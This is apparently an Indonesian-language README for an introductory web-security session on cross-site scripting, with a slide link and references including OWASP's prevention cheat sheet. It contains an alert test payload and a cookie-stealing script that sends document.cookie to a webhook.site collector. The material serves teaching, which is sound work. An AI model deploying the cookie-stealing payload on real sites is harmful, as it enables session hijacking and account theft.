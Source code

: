# Web Basic

## File Presentasi
[https://docs.google.com/presentation/d/1Azj513-Xsgi4o93fVbIzi9CiNaGqRqai7tx2Ue-TBYs/edit?usp=sharing](https://docs.google.com/presentation/d/1oHtpDFFgKNm0D-NF5xlUeM5aKFHcAlt85Xabsd-U94Q/edit?usp=sharing)

## Contoh Payload
Memunculkan popup
```
<script>alert('XSS')</script>
```
Stealing Cookie bisa menggunakan bantuan [webhook.site](webhook.site) dengan contoh payload berikut
```
<script>
new Image().src = "https://webhook.site/3dd6c027-758d-4e54-8a10-8b0ff20fb9a2/?cookie=" + document.cookie;
</script>
```
Untuk URL webhook bisa disesuaikan menurut `unique URL` yang ada webhook Anda.

## Referensi
* About XSS [https://www.youtube.com/watch?v=EoaDgUgS6QA](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* Example XSS payload [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
* XSS Prevention Cheatsheets [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
